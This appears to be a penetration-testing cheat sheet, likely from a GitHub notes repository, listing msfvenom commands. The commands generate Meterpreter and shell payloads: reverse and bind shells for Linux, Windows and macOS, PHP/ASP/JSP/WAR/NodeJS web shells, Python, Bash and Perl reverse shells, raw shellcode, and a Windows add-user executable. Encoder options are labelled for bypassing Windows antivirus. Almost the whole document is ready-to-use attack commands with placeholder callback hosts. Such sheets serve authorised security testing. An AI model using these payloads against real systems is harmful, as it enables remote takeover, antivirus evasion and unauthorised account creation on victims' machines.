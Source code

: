 # MSFVenom

## List payloads
```bash
msfvenom -l payloads # lists payloads
msfvenom -l encoders # lists encoders
```
## Useful parameters
```bash
-b "\x00\x0a\x0d" 
-f c 
-e x86/shikata_ga_nai -i 3 # Bypass Windows AV
EXITFUNC=thread
PrependSetuid=True #Use this to create a shellcode that will execute something with SUID
```
## Binary Payloads
### Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Linux Bind Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```

### Linux 64-bit Reverse Shell
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > FILENAME.elf
```
***Change to x86 for 32-bit***

### Linux Bind Shell
```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > FILENAME.elf
```
### Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > FILENAME.exe
```
### Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > FILENAME.exe
```
### Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > FILENAME.exe
```
### Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > FILENAME.macho
```
### Mac Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > FILENAME.macho
```
## Web payloads
### PHP Meterpreter Reverse TCP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
### ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```
### JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```
### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
### NodeJS
```
msfvenom -p nodejs/shell_reverse_tcp LHOST<IP Address> LPORT=<Your Port> -f js > shell.js
```

## Scripting payloads
### Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```
### Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
### Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```
## Shellcode
### Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
### Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
### Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
## Create user
```
msfvenom -p windows/adduser USER=<USER> PASS=<PASSWORD> -f exe > adduser.exe
```